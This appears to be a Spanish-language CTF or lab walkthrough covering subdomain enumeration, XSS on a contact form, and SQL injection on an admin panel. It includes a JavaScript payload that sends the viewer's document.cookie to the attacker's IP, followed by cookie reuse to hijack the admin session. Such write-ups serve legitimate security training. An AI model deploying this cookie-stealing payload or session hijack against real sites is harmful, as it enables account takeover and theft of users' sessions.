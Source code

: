 
---------
#### Subdomain Enumeration
Vemos en el escaneo de **whatweb** nos redirige a un subdominio. Si lo contenplamos en el **/etc/hosts** y entramos vemos una pagina.

--------
#### XSS Injection - Stealing the admin user cookie  
Si visitamos la pagina web vemos un apartado de **login** el cual contiene un enlace hacia un formulario de contacto:
![[Pasted image 20230717182922.png]]

En el apartado de contacto, vemos una estructura basica para un formulario. Viendo que la pagina parece estar aún en desarrollo, podemos intentar un **XSS** en el formulario. Mandamos una inyección tipica de **XSS** para ver si es vulnerable y si es asi, que alguien este viendo nuestra petición:
![[Pasted image 20230717182956.png]]

Y obtenemos una respuesta:
![[Pasted image 20230717183013.png]]

Ahora que confirmamos el **XSS** podemos continuar con el siguiente script para intentar robarle la cookie a la persona que esta viendo nuestro **payload**:
```js
var req1 = new XMLHttpRequest();
req1.open("GET", "http://nuestra-ip/?cookie=" + document.cookie, false);
req1.send(null);
```

Y nos llega la siguiente peticón con las **cookies** correspondientes para el usuario admin:
![[Pasted image 20230717183036.png]]

Si contemplamos estas cookies en nuestro navegador y recargamos la pagina podemos observar que ahora estamos como el usuario **admin**:
![[Pasted image 20230717183612.png]]

--------
#### Injection RCE  
En la pagina de admin vemos algunas entradas. Si bajamos del todo en la web encontramos un input para filtrar por usuarios. Al intentar alguna inyección tipica de SQL encontramos el siguiente output:
![[Pasted image 20230717183632.png]]

Es vulnerable a inyecciones SQL. Podemos intentar robar información de la base de datos para obtener lo que nos interese.
Por otro lado, vemos que en las cookies hay una de nombre **HOST** que tiene el nombre **Admin** podemos intentar suerte o bien, descubrirla por nosotros mismos con **wfuzz** o **Gobuster**. Si lo agregamos al **/etc/hosts** e ingresamos a la pagina vemos un **login**:
![[Pasted image 20230717184019.png]]

Si intentamos con credenciales comunes no llegamos a dar con nada, sin embargo, tenemos la cookie que robamos con anterioridad, podemos tirar una moneda al aire y verificar si las cookies se esta reutilizando. Colocamos las cookies que teniamos de la pagina **Intra** en la pagina **admin**, recargamos y vemos que tenemos acceso:
![[Pasted image 20230717184129.png]]
